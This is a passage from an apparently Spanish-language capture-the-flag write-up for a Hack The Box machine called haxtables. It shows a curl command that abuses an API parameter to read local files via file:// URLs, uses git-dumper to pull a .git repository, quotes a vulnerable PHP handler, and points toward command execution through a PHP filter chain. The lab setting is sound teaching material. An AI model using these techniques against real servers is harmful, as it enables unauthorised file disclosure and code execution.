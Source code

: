 ```shell
?>
```
Podemos dumpear el repositorio, para eso podemos hacer uso de git-dumper, solo que hay que modificar la línea de curl para que pueda ser usada por la api y así podemos obtener los archivos correctamente.

```shell
curl -s 'http://api.haxtables.htb/v3/tools/string/index.php' -H 'Content-Type: application/json' --data-binary "{\"action\": \"str2hex\", \"file_url\": \"file:///var/www/image/.git/$objname\"}" | jq .data | xxd -ps -r > "$target"
```

```shell
./gitdumper.sh http://images.haxtables.htb/.git/ git
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating git/.git/
[+] Downloaded: HEAD
[+] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
<SNIP>
```
Y después con extractor obtenemos todos los archivos encontrados, esta harramienta también viene con el gitdumper.

```shell
./extractor.sh git project
```
En los archivos encontramos un action_handler.php, donde muestra un parámetro page que le podemos proporcionar por get. Cuando hicimos fuzzing nos encontramos un archivo handler dentro de la carpeta de /var/www/html que es la página principal, en esta podemos ver el código fuente de esta y podemos apreciar que acepta los parámetros data, 

```php
<?php
include_once '../api/utils.php';

if (isset($_FILES['data_file'])) {
    $is_file = true;
    $action = $_POST['action'];
    $uri_path = $_POST['uri_path'];
    $data = $_FILES['data_file']['tmp_name'];

} else {
    $is_file = false;
    $jsondata = json_decode(file_get_contents('php://input'), true);
    $action = $jsondata['action'];
    $data = $jsondata['data'];
    $uri_path = $jsondata['uri_path'];
<SNIP>
```
Podemos abusar del parámetro `uri_path` para apuntar al archivo `actionhandler` para apuntar a un archivo y poder hacer un Filter Chain para ejecutar comandos.
